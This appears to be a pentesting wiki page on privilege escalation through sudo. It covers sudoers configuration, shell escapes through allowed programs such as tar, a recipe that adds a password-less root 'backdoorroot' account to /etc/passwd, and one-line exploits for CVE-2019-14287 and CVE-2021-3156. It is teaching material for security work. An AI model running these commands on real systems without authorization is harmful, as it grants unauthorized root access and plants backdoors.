

# 🛠️ SUDO


**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name


## Theory

`sudo` \(Super User DO\) is a program for UNIX-like computer operating systems that allows users to run programs with the security privileges of another user \(by default, the superuser\).

Unlike the similar command `su`, users must, by default, supply their own password for authentication, rather than the password of the target user. After authentication, and if the configuration file, which is typically located at `/etc/sudoers`, permits the user access, the system invokes the requested command with the target user's privileges.

Sudo users are called sudoers \( 😯_I know right_🧠 \). What sudoers are allowed to do is defined in the `/etc/sudoers` configuration file. This file, owned by `root`, is supposed to be 440 \(read-only\) and should only be edited with `visudo`, `sudoedit` or `sudo -e`.



## Practice

There are many ways to escalate privileges by exploiting `sudo`, either by profiting from insecure misconfiguration, or by exploiting the program's vulnerabilities.

### Configuration

#### Default permissions

The `sudo -l` command can be run by sudoers to check their sudo rights. The output reflects the `/etc/sudoers` configuration that applies to the user. It should like the following \(default config for a new sudoer\).

```bash
# Format is
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) ALL
```

For instance, this configuration allows the `johnthesudoer` user to run any privileged command as long as `johnthesudoer`'s password is known. A privileged session can be obtained with `sudo -i`, `sudo -s`, `sudo su` or `sudo <program>`.

#### Living off the land

While, the configuration can be hardened to restrict privileged execution to specific program, there are some that can be abused to bypass local security restrictions. This is called [Living off the land](living-off-the-land.md).

```bash
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) /bin/tar
```

The configuration above only allows sudoer `johnthesudoer` to execute `/bin/tar` as root as long as `johnthesudoer`'s password is known. The thing is tar is program that can be used to obtain a full session, hence bypassing the restrictions induced by sudoers configuration.

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Other examples can be found on the [Living off the land](living-off-the-land.md) note.

#### Escalation tricks

While some programs can be used to obtain a full shell, others can be used to induce changes on the system to grant root privileges, like `/usr/bin/cp`. The following commands are used to edit the `/etc/passwd` file to add a password-less user with `root`'s uid and gid.

```bash
cp /etc/passwd /tmp/passwd.bak
echo "backdoorroot::0:0:Backdoor root:/root:/bin/bash" >> /tmp/passwd.bak
sudo /usr/bin/cp passwd.bak /etc/passwd
su -l backdoorroot
```

### Vulnerabilities

#### CVE-2019-14287

In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a `sudo -u \#$((0xffffffff))` command.

Exploiting the bug requires that the user have sudo privileges that allow them to run commands with an arbitrary user ID. Typically, this means that the user's sudoers entry has the special value ALL in the Runas specifier. Sudo supports running a command with a user-specified user name or user ID, if permitted by the sudoers policy.

Sudo uses the `setresuid(2)` and `setreuid(2)` system calls to change the user ID before running the command. So if you try to enter a negative user id `-1` (or its unsigned equivalent `4294967295`), `setresuid(2)` and `setreuid(2)` cannot set a negative user id and you're left with the user id sudo is running with : `0`.

Therefore `sudo -u#-1 id -u` or `sudo -u#4294967295 id -u` will actually return `uid=0` and run command as root.

**Exploits** :
 - `sudo -u#-1 sh -p`
 - `sudo -u#4294967295 sh -p`

**Additional References** :

 - https://nvd.nist.gov/vuln/detail/CVE-2019-14287

#### CVE-2021-3156 - Heap-Based Buffer Overflow in Sudo (Baron Samedit)

Sudo before 1.9.5p2 has a Heap-based Buffer Overflow, allowing privilege escalation to root via "sudoedit -s" and a command-line argument that ends with a single backslash character. To test if a system is vulnerable or not, login to the system as a non-root user and run command `sudoedit -s /`. 

 - If the system is patched, it will respond with an error that starts with `usage:` such as :

```
usage: sudoedit [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...
```

 - If the system is vulnerable, it will respond with an error that starts with `sudoedit:` such as :

```
$ sudoedit -s /
[sudo] password for user: 
sudoedit: /: not a regular file
```

**Exploits** :

To exploit a vulnerable system, you can use this exploit : https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156_one_shot

**Additional References** :

 - Original Advisory : https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit
 - https://nvd.nist.gov/vuln/detail/CVE-2021-3156

## References



